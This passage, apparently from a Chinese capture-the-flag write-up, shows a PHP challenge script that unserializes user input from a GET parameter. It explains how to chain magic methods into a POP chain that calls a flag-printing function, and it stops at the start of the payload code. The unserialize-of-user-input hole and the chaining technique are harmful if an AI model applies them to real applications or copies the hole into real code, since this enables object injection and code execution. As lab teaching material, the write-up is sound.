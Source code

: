 ```
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __invoke()
        {
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```

可以看到需要执行GetFlag类中的get_flag()函数，这是一个类的普通方法。要让这个方法执行，需要构造一个POP链。

1. `string1`中的`__tostring`存在`$this->str1->get_flag()`，分析一下要自动调用`__tostring()`需要把类`string1`当成字符串来使用，因为调用的是参数`str1`的方法，所以需要把`str1`赋值为类`GetFlag`的对象。
2. 发现类`func`中存在`__invoke`方法执行了字符串拼接，需要把`func`当成函数使用自动调用`__invoke`然后把`$mod1`赋值为`string1`的对象与`$mod2`拼接。
3. 在`funct`中找到了函数调用，需要把`mod1`赋值为`func`类的对象，又因为函数调用在`__call`方法中，且参数为`$test2`,即无法调用`test2`方法时自动调用 `__call`方法；
4. 在`Call`中的`test1`方法中存在`$this->mod1->test2();`，需要把`$mod1`赋值为`funct`的对象，让`__call`自动调用。
5. 查找`test1`方法的调用点，在`start_gg`中发现`$this->mod1->test1();`，把`$mod1`赋值为`start_gg`类的对象，等待`__destruct()`自动调用。

payload：

```
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
```